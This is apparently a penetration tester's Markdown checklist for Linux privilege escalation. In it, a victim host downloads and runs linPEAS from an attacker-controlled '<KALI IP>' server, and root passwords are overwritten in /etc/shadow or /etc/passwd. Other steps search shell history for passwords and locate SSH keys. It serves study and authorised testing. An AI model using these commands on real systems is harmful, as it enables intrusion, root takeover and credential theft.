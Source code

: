 ## Intro
Use Linpeas if possible

https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS
Alternative enumeration script: https://github.com/diego-treitos/linux-smart-enumeration/tree/master

On the attacker host:
```
# determine IP address of Kali
ip a

# create python webserver in the directory where linpeass are located
python -m http.server 8080
```
From the victim host
```

#Either of the below
wget http://<KALI IP>:8080/linpeas.sh
curl --output linpeas.sh http://<KALI IP>:8080/linpeas.sh

chmod +x linpeas.sh
./linpeas.sh
```
## Basic
Check if you can become root without password
```
su root
```

Check what priviliges you have (what can be run as sudo without password)

Compare with the list here: https://gtfobins.github.io/#+sudo

Also check which environment variables are inherited (look for the env_keep options)
```
sudo -l
```
## passwd and shadow

Check if you can read/write /etc/shadow.
- Can Write -> replace root password
- Can Read -> crack the passwords
```
ls -l /etc/shadow

# Generate new password hash to overwrite /etc/shadow
mkpasswd -m sha-512 test
```

Check if you can write to /etc/passwd
- Can write -> add root password directly here
```
ls -l /etc/passwd

# Generate new password hash to overwrite /etc/passwd
openssl passwd test
```

## Crontab
Check what is executed in cron
- edit the .sh files if possible
  - maybe they include wildcards (*) that can be abused? 
- replace executable files\
- check location of the PATH variable, can you do search order hijacking?
```
cat /etc/crontab
```

## SUID file
Executables that are executed in the context of root user.
Find all SUID files and look for the weird ones (e.g. in the user dir)

List of all commonly exploited SUID binaries: https://gtfobins.github.io/#+suid
```
find / -type f -perm -u=s 2>/dev/null
# or
find / -user root -perm -4000 -print 2>/dev/null
```
## Passwords & keys
Maybe password is available in any log or config file?
```
# User history
cat ~/.*history | grep pass

# SSH config files (must be readable)
find / -name ".ssh" 2>/dev/null
```

## Find exploits
https://www.exploit-db.com/
- Exploits for SUID executables

https://github.com/jondonas/linux-exploit-suggester-2
- Exploits for the Linux itself

## Additional materials
https://book.hacktricks.xyz/linux-hardening/linux-privilege-escalation-checklist

